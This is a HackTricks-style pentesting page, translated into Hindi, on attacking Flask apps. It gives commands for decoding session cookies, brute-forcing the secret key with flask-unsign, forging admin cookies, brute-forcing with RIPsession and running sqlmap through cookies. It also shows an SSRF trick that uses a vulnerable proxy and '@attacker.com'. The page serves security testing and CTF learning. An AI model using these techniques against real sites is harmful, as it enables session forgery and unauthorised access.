 # Flask

{{#include ../../banners/hacktricks-training.md}}

**संभवतः यदि आप एक CTF खेल रहे हैं तो एक Flask एप्लिकेशन** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)** से संबंधित होगा।**

## Cookies

डिफ़ॉल्ट कुकी सत्र का नाम **`session`** है।

### Decoder

ऑनलाइन Flask कुकीज़ डिकोडर: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Manual

कुकी के पहले भाग को पहले बिंदु तक प्राप्त करें और इसे Base64 डिकोड करें>
```bash
echo "ImhlbGxvIg" | base64 -d
```
कुकी को एक पासवर्ड का उपयोग करके भी साइन किया गया है

### **Flask-Unsign**

कमांड लाइन टूल जो एक Flask एप्लिकेशन के सत्र कुकीज़ को प्राप्त करने, डिकोड करने, ब्रूट-फोर्स करने और बनाने के लिए गुप्त कुंजी का अनुमान लगाकर उपयोग किया जाता है।

{% embed url="https://pypi.org/project/flask-unsign/" %}
```bash
pip3 install flask-unsign
```
#### **कुकी डिकोड करें**
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
#### **ब्रूट फोर्स**
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```
#### **साइनिंग**
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```
#### पुराने संस्करणों का उपयोग करके साइन इन करना
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```
### **RIPsession**

कमान्ड लाइन उपकरण जो flask-unsign के साथ बनाए गए कुकीज़ का उपयोग करके वेबसाइटों पर ब्रूट-फोर्स करता है।

{% embed url="https://github.com/Tagvi/ripsession" %}
```bash
ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```
### Flask सत्र कुकी में SQLi SQLmap के साथ

[**यह उदाहरण**](../../pentesting-web/sql-injection/sqlmap/#eval) sqlmap `eval` विकल्प का उपयोग करता है ताकि **फ्लास्क के लिए sqlmap पेलोड को स्वचालित रूप से साइन किया जा सके** एक ज्ञात गुप्त के लिए।

## SSRF के लिए Flask प्रॉक्सी

[**इस लेख में**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) यह समझाया गया है कि कैसे Flask एक अनुरोध की अनुमति देता है जो वर्ण "@" से शुरू होता है:
```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```
निम्नलिखित परिदृश्य में:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```
कुछ ऐसा "@attacker.com" पेश करने की अनुमति दे सकता है जिससे **SSRF** हो सके। 

{{#include ../../banners/hacktricks-training.md}}
